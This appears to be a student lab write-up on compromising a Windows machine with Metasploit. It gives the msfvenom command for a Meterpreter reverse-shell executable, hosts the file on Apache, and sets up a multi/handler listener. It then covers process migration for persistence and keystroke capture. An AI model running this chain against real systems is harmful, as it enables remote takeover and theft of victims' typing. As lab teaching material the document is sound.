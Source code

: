 ### Date:
# Ex-6: Compromising-windows-using-Metasploit
Compromising windows using Metasploit
### Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:

![1)](https://github.com/user-attachments/assets/f0805f25-2b83-464d-ab47-c4fc99414248)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT

![2)](https://github.com/user-attachments/assets/5ed26998-335c-4c81-b80d-e61daa7a50ce)


copy the fun.exe into the apache /var/www/html folder


![3)](https://github.com/user-attachments/assets/c2461816-5137-45aa-ab2d-366f1639fd2b)


Start apache server
sudo systemctl apache2 start

![4)](https://github.com/user-attachments/assets/502183a0-9ae5-4ce0-b799-d669e9ae954e)


Check the status of apache2

![5)](https://github.com/user-attachments/assets/0d8d0328-a39f-4795-b589-78643b301834)

Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6)](https://github.com/user-attachments/assets/ea687bb8-b003-441e-a1f6-05c2ad35d12e)



set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7)](https://github.com/user-attachments/assets/8196bb53-4ddc-4e6a-8d33-99488787e379)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![8)](https://github.com/user-attachments/assets/2de61159-cad8-452d-a933-d07914aa418d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![9)](https://github.com/user-attachments/assets/dc8de406-d4a3-440d-9966-f7578a524f33)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Uploading 10).png…]()



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![11)](https://github.com/user-attachments/assets/4098d1e3-0394-4012-b817-5bef3e99c744)


keyscan_dump	Shows the keystrokes captured so far

![12)](https://github.com/user-attachments/assets/7bb28d80-71b8-4664-a907-b8c9cd424fd3)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
